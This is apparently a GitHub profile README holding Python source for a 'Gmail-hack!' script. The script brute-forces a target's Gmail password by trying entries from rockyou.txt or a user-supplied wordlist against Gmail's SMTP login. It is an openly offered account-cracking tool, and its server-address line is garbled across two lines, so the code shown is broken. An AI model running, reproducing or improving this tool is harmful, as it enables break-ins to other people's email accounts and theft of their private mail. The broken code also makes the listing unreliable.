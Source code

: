 import smtplib
import sys
from os import system
def artwork():
    print("\n")
    print("##########################################################")
    print("#                                                        #")
    print("#                     \||/                               #")
    print("#                     |  @___oo                          #")
    print("#           /\  /\   / (__,,,,|                          #")
    print("#          ) /^\) ^\/ _)                Gmail-hack!      #")
    print("#          )   /^\/   _)                CoDeD By:        #")
    print("#          )   _ /  / _)                        d4az     #")
    print("#      /\  )/\/ ||  | )_)                                #")
    print("#     <  >      |(,,) )__)                               #")
    print("#      ||      /    \)___)\                              #")
    print("#      | \____(      )___) )___                          #")
    print("#      \______(_______;;; __;;;                          #")
    print("#                                                        #")
    print("##########################################################")
    print("\n")
    
    
artwork()
smtpserver = smtplib.SMTP("pewpew047@
gmail.com", 587)

smtpserver.ehlo()
smtpserver.starttls()

user = input("Enter The Target Gmail Adress => ")

print("\n")

pwd = input("Enter '0' to use the inbuilt passwords list \nEnter '2' to Add a custom password list\n => ")

if pwd=='0':
    passswfile="rockyou.txt"

elif pwd=='2':
    print("\n")
    passswfile = input("Name The File Path (For Password List) => ")

else:
    print("\n")
    print("Invalid input!")
    sys.exit(1)
try:
    passswfile = open(passswfile, "r")

except Exception as e:
    print(e)
    sys.exit(1)

for password in passswfile:
    try:
        smtpserver.login(user, password)

        print("[+] Password Found %s" % password)
        break

    except smtplib.SMTPAuthenticationError:
        print("[!] Pasword Is Wrong. %s " % password)


<!---
Dev2541/Dev2541 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
